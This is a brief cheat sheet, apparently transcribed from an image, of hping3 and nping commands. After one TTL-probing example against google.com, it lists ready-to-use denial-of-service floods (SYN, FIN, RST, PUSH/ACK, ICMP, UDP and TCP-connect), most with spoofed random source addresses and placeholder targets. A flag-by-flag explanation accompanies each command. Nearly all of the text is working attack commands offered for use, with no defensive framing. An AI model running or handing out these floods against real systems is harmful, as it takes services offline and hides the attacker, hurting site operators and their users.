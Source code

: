 # -z connects the command to the ctrl z on the keyboard so that every time we press it, the TTL is incremented by 1
# -t sets the initial TTL (in this case, we're using 1)
# -S sets the flag to SYN
# -p 80 sets the destination port to 80
hping3 -z -t 1 -S google.com -p 80
    


DoS using hping3 with random source IP
-c 100000 = Number of packets to send.
-d 120 = Size of each packet that was sent to target machine.
-S = I am sending SYN packets only.
-w 64 = TCP window size.
-p 21 = Destination port (21 being FTP port). You can use any port here.
--flood = Sending packets as fast as possible, without taking care to show incoming replies. Flood mode.
--rand-source = Using Random Source IP Addresses. You can also use -a or –spoof to hide hostnames. See MAN page below.
www.hping3testsite.com = Destination IP address/website name 
$hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com

#SYN flood – DoS using HPING3
hping3 -S --flood -V www.hping3testsite.com

Advanced SYN flood with random source IP, different data size, and window size
hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE
–flood: sent packets as fast as possible
–rand-source: random source address
-c –count: packet count
-d –data: data size
-S –syn: set SYN flag
-w –win: winsize (default 64)
-p –destport: destination port (default 0)
$hping3 -S --flood -V -p TARGET_PORT TARGET_SITE


FIN floods
$hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP
TCP RST Flood
$hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP
PUSH and ACK Flood
$hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP
ICMP flood
$hping3 --flood --rand-source -1 -p TARGET_PORT TARGET_IP
UDP Flood
–flood: sent packets as fast as possible
–rand-source: random source address
–udp: UDP mode
-p –destport: destination port (default 0)
$hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP
SYN flood with spoofed IP – DoS using HPING3
$hping3 -S -P -U --flood -V --rand-source www.hping3testsite.com
TCP connect flood – DoS using NPING
$nping --tcp-connect -rate=90000 -c 900000 -q www.hping3testsite.com    
    